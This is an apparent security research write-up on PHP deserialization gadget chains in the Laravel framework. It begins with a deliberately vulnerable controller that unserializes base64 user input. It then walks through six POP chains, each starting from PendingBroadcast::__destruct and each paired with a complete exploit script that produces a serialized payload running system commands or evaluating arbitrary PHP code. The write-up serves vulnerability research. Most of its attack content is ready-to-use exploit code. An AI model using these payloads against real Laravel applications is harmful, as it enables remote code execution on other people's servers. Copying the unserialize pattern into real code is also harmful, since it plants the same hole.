#Environmental construction

> Add a route in `routes/web.php`

```php
Route::get('/', "DemoController@demo");
```

> Add controllers in the `app/Http/Controllers` directory

```php
<?php
namespace App\Http\Controllers;

use Illuminate\Http\Request;
class DemoController extends Controller
{
    public function demo()
    {
        if(isset($_GET['data'])){
            @unserialize(base64_decode($_GET['data']));
        }
        else{
            highlight_file(__FILE__);
        }
    }
}
```

# Vulnerability Analysis
> First find the trigger point of the deserialization vulnerability, search the `__destruct()` method or the `__wakeup()` method globally





## POC Chain-1
> Follow up on the `__destruct()` method in `src/Illuminate/Broadcasting/PendingBroadcast.php` and found that both `$this->events` and `$this->events` are controllable, so you can find a `__call()` method or `dispatch()` method to utilize it.
> First use `__call()` to make a breakthrough point, follow up on the `__call()` method in `src/Faker/Generator.php`, and find that it called the `format()` method, and then called the `getFormatter()` method



> Since the `$this->formatters[$formatter]` in the `getFormatter()` method is controllable and returns directly to the previous layer, this controllable parameter can be used to perform RCE operations in commands.

### exp
```php
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        function __construct($events="", $event="") {
            $this->events = $events;
            $this->event = $event;
        }
    }
}

namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct($func="") {
            $this->formatters = ['dispatch' => $func];
        }
    }
}

namespace {
    $demo1 = new Faker\Generator("system");
    $demo2 = new Illuminate\Broadcasting\PendingBroadcast($demo1, "calc");
    echo base64_encode(serialize($demo2));
}
?>
```



### POC chain utilization flow chart



## POC Chain-2
> Continue to find the available `__call()` method above, follow up on the `__call()` method in `src/Illuminate/Validation/Validator.php`, first perform the string operation and intercept the characters after the eighth character of `$method`. Since the string passed in is `dispatch`, it is exactly eight characters, so it is empty after passing in. Then, the `callExtension()` method is called through the if logic to trigger the `call_user_func_array` method



### exp
```php
<?php
namespace Illuminate\Validation {
    class Validator {
       public $extensions = [];
       public function __construct() {
            $this->extensions = ['' => 'system'];
       }
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Validation\Validator;
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($cmd)
        {
            $this->events = new Validator();
            $this->event = $cmd;
        }
    }
    echo base64_encode(serialize(new PendingBroadcast('calc')));
}
?>
```


### POC chain utilization flow chart


## POC Chain-3
> Follow up on the `__call()` method in `src/Illuminate/Support/Manager.php`, which calls the `driver()` method



> Follow up on the `createDriver()` method, call the `callCustomCreator()` method when `$this->customCreators[$driver]` exists, and follow up on the `callCustomCreator()` method, and find that `$this->customCreators[$driver]` and `$this->app)` are both controllable, so RCE can be triggered.



### exp
```php
<?php
namespace Illuminate\Notifications {
    class ChannelManager {
        protected $app;
        protected $customCreators;
        protected $defaultChannel;
        public function __construct() {
            $this->app = 'calc';
            $this->defaultChannel = 'H3rmesk1t';
            $this->customCreators = ['H3rmesk1t' => 'system'];
        }
    }
}


namespace Illuminate\Broadcasting {
    use Illuminate\Notifications\ChannelManager;
    class PendingBroadcast {
        protected $events;
        public function __construct()
        {
            $this->events = new ChannelManager();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```



### POC chain utilization flow chart



## POC Chain-4
> I roughly read the `__call()` method basically has no use (it's too bad to find), so I started to follow the `dispath()` method



> Follow up first`s
The `dispatch()` method in rc/Illuminate/Events/Dispatcher.php` noticed `$listener($event, $payload)`, and tried to use this as a breakthrough to implement RCE



> See how the value of `$listener` comes from, follow up with the `getListeners()` method. Here you can first control the value of `$listener` by the controllable variable `$this->listeners[$eventName]`, then enter the combination function, call the `getWildcardListeners()` method, follow up and take a look. After the default settings are executed, you will return `$wildcards = []`, and then return to the value of `$this->listeners[$eventName]` after the combination function merge is still `$this->listeners[$eventName]`, and then enter the `class_exists()` function. Since there is no class name for the command execution function, you can still return the value of `$this->listeners[$eventName]`



> After controlling the value of `$listener`, use the passed `$event` value as the parameter value of the command execution function to perform RCE operations

### exp
```php
<?php
namespace Illuminate\Events {
    class Dispatcher {
        protected $listeners = [];
        public function __construct() {
            $this->listeners = ["calc" => ["system"]];
        }
    }
}


namespace Illuminate\Broadcasting {
    use Illuminate\Events\Dispatcher;
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = "calc";
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```


### POC chain utilization flow chart



## POC Chain-5
> Continue to follow the `dispatch()` method, follow the `dispatch()` method in `src/Illuminate/Bus/Dispatcher.php`, notice that if the method is judged as true, it will enter the `dispatchToQueue()` method, follow up the `dispatchToQueue()` method and find the `call_user_func()` method



> Let's first look at how to enter the loop of the if statement. First, `$this->queueResolver` is controllable. Follow up on the `commandShouldBeQueued()` method. Here we determine whether `$command` is an implementation of `ShouldQueue`, that is, the passed `$command` must be an implementation of the `ShouldQueue` interface, and the `$command` class contains the `connection` attribute



> Here we find two `SendQueuedNotifications` class in `src/Illuminate/Notifications/SendQueuedNotifications.php` and `BroadcastEvent` class in `src/Illuminate/Broadcasting/BroadcastEvent.php`. When the class is a trait class, it can also access its properties. Follow up here `src/Illuminate/Bus/Queueable.php`






### exp
```php
<?php
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver = "system";
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Bus\Dispatcher;
    class BroadcastEvent {
        public $connection;
        public $event;
        public function __construct() {
            $this->event = "calc";
            $this->connection = $this->event;
        }
    }


    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```



### POC chain utilization flow chart



## POC Chain-6
> Continue to continue the `call_user_func()` method in the previous chain. Since the variables here are controllable, you can call methods of any class and follow up with the `load()` method in `library/Mockery/Loader/EvalLoader.php`. If you do not enter the if loop and trigger the `getCode()` method, you can cause any code execution vulnerability.



> Look at the judgment conditions of the if loop and follow up the call. Since the last `$this->name` is controllable, you only need to assign it a non-existent class name value. There are many available `getName()` methods, just choose one that can be used.




### exp-1
```php
<?php
namespace Mockery\Generator {
    class MockConfiguration {
        protected $name = 'H3rmesk1t';
    }
    class MockDefinition {
        protected $config;
        protected $code;
        public function __construct() {
            $this->config = new MockConfiguration();
            $this->code = "<?php system('calc');?>";
        }
    }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Illuminate\Bus {
    use Mockery\Loader\EvalLoader;
    class Dispatcher {
        protected $queueResolver;
        public function __construct() {
            $this->queueResolver = [new EvalLoader(), 'load'];
        }
}
}

namespace Illuminate\Broadcasting {
    use Illuminate\Bus\Dispatcher;
    use Mockery\Generator\MockDefinition;
    class BroadcastEvent {
        public $connection;
        public function __construct() {
            $this->connection = new MockDefinition();
        }
    }
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```

### exp-2
```php
<?php
namespace Symfony\Component\HttpFoundation {
    class Cookie {
        protected $name = "H3rmesk1t";
    }
}

namespace Mockery\Generator {
    use Symfony\Component\HttpFoundation\Cookie;
    class MockDefinition {
        protected $config;
        protected $code;
        public function __construct($code) {
            $this->config = new cookie();
            $this->code = $code;
        }
    }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Illuminate\Bus {
    use Mockery\Loader\EvalLoader;
    class Dispatcher {
        protected $queueResolver;
        public function __construct() {
            $this->queueResolver = [new EvalLoader(), 'load'];
        }
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Bus\Dispatcher;
    use Mockery\Generator\MockDefinition;
    class BroadcastEvent {
        public $connection;
        public function __construct() {
            $this->connection = new MockDefinition("<?php system('calc');?>");
        }
    }
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```



### POC chain utilization flow chart

